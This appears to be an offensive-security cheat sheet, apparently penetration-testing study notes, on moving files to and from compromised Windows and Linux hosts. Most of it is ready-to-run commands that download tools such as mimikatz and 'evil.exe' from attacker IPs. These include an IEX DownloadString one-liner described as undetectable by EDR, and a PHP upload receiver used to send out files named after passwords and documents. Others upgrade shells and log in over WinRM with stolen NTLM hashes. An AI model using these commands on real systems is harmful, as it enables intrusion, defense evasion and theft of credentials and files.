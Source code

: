 ### Using third-party file sharing links
https://www.file.io/  
https://www.gofile.io/

### Powershell
```
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.11.0.4/wget.exe','C:\Users\offsec\Desktop\wget.exe')" 
powershell -NoProfile -ExecutionPolicy Bypass -NoLogo -NonInteractive -c "(new-object System.Net.WebClient).DownloadFile('http://10.11.0.4/wget.exe','C:\Users\offsec\Desktop\wget.exe')"
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1

d_f.ps1
$webclient = New-Object System.Net.WebClient
$url = "http://10.11.0.4/evil.exe"
$file = "path\new.exe"
$webclient.DownloadFile($url,$file)
PS:IEX (New-Object System.Net.WebClient).DownloadString('path/d_f.ps1') -- Cant be detected by EDR
```
```
upx -9 nc.exe(compress to be smaller)
exe2hex -x nc.exe -p nc.cmd(convert the file to hex and instruct powershell.exe to assemble it back into binary)
```
```
iwr -uri http://192.168.45.214:8000/mimikatz.exe -Outfile mimikatz.exe
```
#### Upload Files using enabled outbound http traffic
```
save upload.php under kali /var/www/html
<?php
$uploaddir = '/var/www/uploads/';

$uploadfile = $uploaddir . $_FILES['file']['name'];

move_uploaded_file($_FILES['file']['tmp_name'], $uploadfile)
?>
sudo mkdir /var/www/uploads
ps -ef | grep apache
sudo chown www-data: /var/www/uploads
powershell (New-Object System.Net.WebClient).UploadFile('http://10.11.0.4/upload.php', 'Path/important.docx')
```

### SCP Copy file from remote machine to local tmp (Linux to Linux)
scp john@localhost:/var/tmp/CopyMe.txt /tmp  
scp [OPTION] [user@]SRC_HOST:]file1 [user@]DEST_HOST:]file2  
scp -P 2222 student@192.168.79.112:/usr/share/kali-defaults/web/img/password.png /home/kali/

### NC transfering files
```
nc -lvnp 6666 > incoming.txt
nc -nv 192.168.65.61 6666 < incoming.txt
```

### Socat transfer files
```
sudo socat TCP4-LISTEN:443,fork file:secret_passwords.txt  
socat TCP4:10.11.0.4:443 file:received_secret_passwords.txt,create
```

### Pure-ftpd (Linux - Linux)
#### install
/ftphome(pure-ftpd home dir, get,put can transfer files to here or from here)
```
sudo apt update && sudo apt install pure-ftpd  
sudo groupadd ftpgroup  
sudo useradd -g ftpgroup -d /dev/null -s /etc ftpuser  
sudo pure-pw useradd kali(ftp login username, anyname but ftpuser) -u ftpuser -d /ftphome(input below commands again if reinput this command)
sudo pure-pw mkdb  
cd /etc/pure-ftpd/auth/  
sudo ln -s ../conf/PureDB 60pdb  
sudo mkdir -p /ftphome  
sudo chown -R ftpuser:ftpgroup /ftphome/  
sudo systemctl restart pure-ftpd
```
#### Commands
ftp 10.11.0.4  
bye  
anonymous login:
user:anonymous,password:""
#### Upgrading a Non-Interactive Shell
python -c 'import pty; pty.spawn("/bin/bash")'  
#### mode
bin(binary mode)
ascii(ascii mode)
#### transfer files
```
Authentication first
1. attack machine put files under ftphome dir
2. get filename/put filename
```

### VBS to download files
usage: cscript wget.vbs http://10.11.0.4/evil.exe evil.exe(outfile)
```
strUrl = WScript.Arguments.Item(0)
StrFile = WScript.Arguments.Item(1) 
Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 
Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 
Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 
Const HTTPREQUEST_PROXYSETTING_PROXY = 2 
Dim http, varByteArray, strData, strBuffer, lngCounter, fs, ts 
 Err.Clear 
 Set http = Nothing 
 Set http = CreateObject("WinHttp.WinHttpRequest.5.1") 
 If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") 
 If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") 
 If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") 
 http.Open "GET", strURL, False 
 http.Send 
 varByteArray = http.ResponseBody 
 Set http = Nothing 
 Set fs = CreateObject("Scripting.FileSystemObject") 
 Set ts = fs.CreateTextFile(StrFile, True) 
 strData = "" 
 strBuffer = "" 
 For lngCounter = 0 to UBound(varByteArray) 
 ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1, 1))) 
 Next 
 ts.Close
```
### TFTP to upload files
```
kali: 
sudo apt update && sudo apt install atftp
sudo mkdir /tftp
sudo chown nobody: /tftp
sudo atftpd --daemon --port 69 /tftp
windows xp, 2003 etc:
tftp -i 10.11.0.4 put important.docx
```
### Certutil(windows has this built-in)
```
certutil.exe -urlcache -split -f http://example.com/a.txt C:\Users\Public\nc.exe
certutil.exe -urlcache -split -f http://example.com/a.txt C:\\Users\\Public\\nc.exe
```
if cant find certutil.exe, use C:\Windows\System32\certutil.exe 
### smb server to transfer file (Windows to linux)
```
linux:
impacket-smbserver test(customized sharename) .(current terminal path) -smb2support

windows:
net use \\linuxIP\sharename
copy Passwords.kdbx(windows filename) \\kali ip\sharename\Passwords.kdbx
```
### Http 
```
wget url
wget -r --no-parent http://192.168.188.144/.git/ #includes subdir and files

curl http://192.168.45.166:8000/winpeas.exe -o C:\users\hacker\winpeas.exe
```
### Evil-Winrm
```
evil-winrm -i ip -u username -p password
evil-winrm -i ip -u username -H ntlm_hash
evil-winrm basic commands:
Upload usage: upload local_filename or upload local_filename destination_filename
Download usage: download remote_filename or download remote_filename destination_filename
```
